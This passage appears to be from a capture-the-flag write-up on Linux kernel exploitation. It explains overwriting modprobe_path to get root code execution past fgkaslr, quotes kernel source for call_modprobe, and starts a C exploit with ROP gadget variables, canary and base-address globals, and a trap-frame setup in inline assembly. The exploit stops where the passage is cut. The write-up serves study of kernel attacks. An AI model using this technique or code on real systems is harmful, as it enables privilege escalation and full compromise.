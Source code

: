 But this does not end yet. When I was looking for sovles by other players, I found a really elegant method [3]. This technique is trigger call_modprobe() to execute the file which modprobe_path points to by trying to execve() an unrecognisable format file. And by overwriting modprobe_path which is also unaffected by fgkaslr, we can let our script be executed, which causes an arbitrary code execution with root privileges.

```c
static int call_modprobe(char *module_name, int wait)
{
    ...
  	argv[0] = modprobe_path;
  	argv[1] = "-q";
  	argv[2] = "--";
  	argv[3] = module_name;
  	argv[4] = NULL;

  	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
    ...
}
```

Here is the exploit which works for me.

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/types.h>
#include <string.h>

unsigned long pop_rax_ret; // pop rax; ret;
unsigned long pop_rbx_r12_rbp_ret; // pop rbx ; pop r12 ; pop rbp ; ret;
unsigned long write_ptr_rbx_rax_pop2_ret; // mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
unsigned long kpti_gadget;
unsigned long modprobe_path;
unsigned long canary;
unsigned long base;
int global_fd;

struct trap_frame{
    void *rip;
    unsigned long long cs;
    unsigned long long eflags;
    void *rsp;
    unsigned long long ss;
}__attribute__((packed));
struct trap_frame tf;
unsigned long long tf_addr = &tf;

unsigned long long u64(char * s){
    unsigned long long result = 0;
    for (int i = 7 ; i >=0 ;i--){
        result = (result << 8) | (0x00000000000000ff & s[i]);
    }
    return result;
}

void init_tf_work(void){
    __asm__ volatile(".intel_syntax noprefix;"
        "mov tf+8, cs;"    //set cs
        "pushf;pop tf+16;"       //set eflags
        "push rsp;pop tf+24;"
```